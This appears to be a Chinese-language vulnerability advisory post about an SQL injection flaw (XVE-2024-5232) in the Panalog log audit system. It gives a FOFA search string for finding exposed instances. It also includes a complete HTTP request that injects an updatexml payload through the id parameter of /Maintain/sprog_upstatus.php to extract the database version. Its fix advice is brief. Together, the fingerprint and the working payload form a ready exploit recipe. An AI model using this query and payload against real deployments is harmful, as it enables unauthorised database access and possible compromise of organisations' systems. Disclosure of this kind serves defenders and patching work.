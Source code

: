 #  Panalog 日志审计系统 SQL 注入漏洞【XVE-2024-5232】   
小酸弟  小酸弟信安   2024-08-05 09:28  
  
01 简介及指纹  
  
Panalog大数据日志审计系统是一款专注于大数据日志管理和审计的系统，旨在帮助企业和组织有效地管理、分析和审计大量日志数据。  
  
资产检索 FOFA：body="Maintain/cloud_index.php"  
  
02 漏洞概述  
  
 /Maintain/sprog_upstatus.php 接口处的 id 参数存在 SQL 注入漏洞，可导致数据库信息泄露从而获取敏感信息，严重导致rce。  
  
03 影响版本  
  
Panalog 日志审计系统  
  
04 环境搭  
建  
  
Panalog 日志审计系统  
  
05 漏洞复现   
  
完整数据包  
```
GET /Maintain/sprog_upstatus.php?status=1&rdb=1&id=1%20and%20updatexml(1,concat(0x7e,version(),0x7e),1) HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7Hgh5UvhnkJghmHbuJ6MiccXjzhrnLK5ku9XqKFnxap3ZTQw2WrRYGDgzvVgw7VzAIX8epfZia9NHUl951lXSOBQ/640?wx_fmt=png&from=appmsg "")  
  
05 漏洞修复  
  
在防火墙进行管控。  
  
及时关注厂商的修复补丁。  
  
  
  
  
